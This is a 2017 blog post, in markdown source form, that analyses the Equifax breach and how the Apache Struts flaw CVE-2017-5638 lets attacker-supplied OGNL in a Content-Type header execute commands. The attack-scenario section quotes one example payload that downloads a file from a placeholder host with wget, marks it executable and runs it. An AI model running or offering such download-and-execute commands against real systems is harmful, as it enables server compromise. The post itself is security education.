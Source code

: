 ```yaml
---
layout: post
comments: true
title:  "The Equifax Breach"
excerpt: "A Comprehensive Investigation of the Equifax Security Incident."
date:   2017-11-07 11:00:00
mathjax: false
---
```


- The Breach

On Sept 7, Equifax, one of the three biggest credit monitoring companies, announced a major data breach. Hackers broke into the company’s database and stole private information from 143 million people, nearly half of the adult population in America (Thomas, 2017).
This is not the first major data breach in America. In 2013, information from one billion accounts was compromised during a cyber-attack on Yahoo. In 2014, at Yahoo again, another 500 million passwords and account information were exposed (Yahoo breaches n.d.).
However, the Equifax breach is one of the worst of its kind. Because the information exposed is highly sensitive, including names, birthdays, addresses, social security numbers and even driver’s license numbers (Thomas, 2017). Fraudsters dream of exactly this type of information. They will be able to apply for credit cards and open bank accounts in another person’s name. In the worst scenario, they can print fake IDs and commit crimes using other people’s identities. Many customers became victims without having heard of Equifax. Yet Equifax holds a full set of credit information about them and maintains this information so poorly.

The specific vulnerability of this breach lay in Apache Struts, a widely used framework for building web applications. Equifax uses Apache Struts to build its website server. Early in 2017, Apache Struts was found vulnerable to remote command execution (RCE). The flaw was labeled CVE 2017-5638 and soon patched on March 06 (Thomas, 2017). A simple software update will keep websites away from this kind of attack.

Surprisingly, as a company carrying so much sensitive information, Equifax ignored the important patch. They said that this breach on their website began in mid-May, two months later after the patch was available (Goodin, 2017). Actually, since the publication of the patch, the flaw has been widely discussed and analyzed. Demonstration exploits are available on Github. Even nonexperts are able to download example code and perform RCE attack on websites using unpatched Apache Struts. Unfortunately, Equifax is one such site. It was like a fat rabbit striding in a dangerous woods that finally caught the attention of a hungry predator.

- The Attack Scenario

When a client sends an HTTP request to a server running Apache Struts, a content-type specification is passed along with this request. If the content-type is not valid, an exception will be raised. Then a function named “LocalizedTextUtil.findText” will be called. It will use the invalid content-type to build error message for clients. During the process, the function will evaluate the supplied message. Anything within ${...} in this message will be evaluated as an Object Graph Navigation Library (OGNL) expression. If the OGNL expression is a function call, this expression will be executed (Sahu, 2017).

If a content-type message is deliberately made up by an attacker, evaluation of this message as OGNL expression will enable the attacker to execute any commands on servers. To make matters worse, attackers can redirect outputs of executions to the feedback to them. In this way, they can see results of executions and do further damage, for example, locating and transferring critical data (Sahu, 2017). A typical RCE attack is to download and run malicious files on host machines. (As illustrated by the code follows.)
#cmds=({'wget –c http://www.xxx.com/fileX; chmod 777 fileX;./fileX;'})

The flaw was patched by disabling the use of “LocalizedTextUtil.findText” function. Although it was patched on March 6, many websites didn’t get updates in time. Shortly after the update was available, the number of attacks exploiting this bug grew dramatically (Goodin, 2017). It seemed that many attackers were not aware of the bug until it was officially announced. And they reacted to it more quickly than programmers maintaining those vulnerable websites, if there were any maintainer at all.

- Security Flaw Summary

	During this incident, three things are noticeable. The first is the execution of content-type message. The content-type messages are essentially strings from users. They are not expected to be and should never be executed. Second, the OGNL expressions make it very convenient to manipulate Java objects. Meanwhile, they bring a number of vulnerabilities to the Struts framework (Munoz, 2014), the building block of numerous websites around the world. At last, the breach would not have happened without the failure to patch a two-month-old flaw. It is hard to imagine that such a company as Equifax is so ignorant of security.

- Bibliography

[1] Goodin, D. (2017, Sept 13). Failure to patch two-month-old bug led to massive Equifax breach. Ars Technica. Retrieved from https://arstechnica.com

[2] Goodin, D. (2017, March 14). In-the-wild exploits ramp up against high-impact sites using Apache Struts. Ars Technica. Retrieved from https://arstechnica.com

[3] Munoz, A. (2014, Jan 14). Struts 2: OGNL Expression Injections. Micro Focus. Retrieved from https://community.saas.hpe.com

[4] Thomas, Fox. (2017, Sept 14). How Hackers Broke Equifax: Exploiting a Patchable Vulnerability Forbes. Retrieved from https://www.forbes.com

[5] Sahu, S. (2017, March 3). CVE-2017-5638: Apache Struts 2 Vulnerability Leads to Remote Code Execution. Trend Micro. Retrieved from http://blog.trendmicro.com/

[6] Yahoo breaches. (n.d.). Wikipedia. Retrieved September 26, 2017, from https://en.wikipedia.org/wiki
/Yahoo!_data_breaches
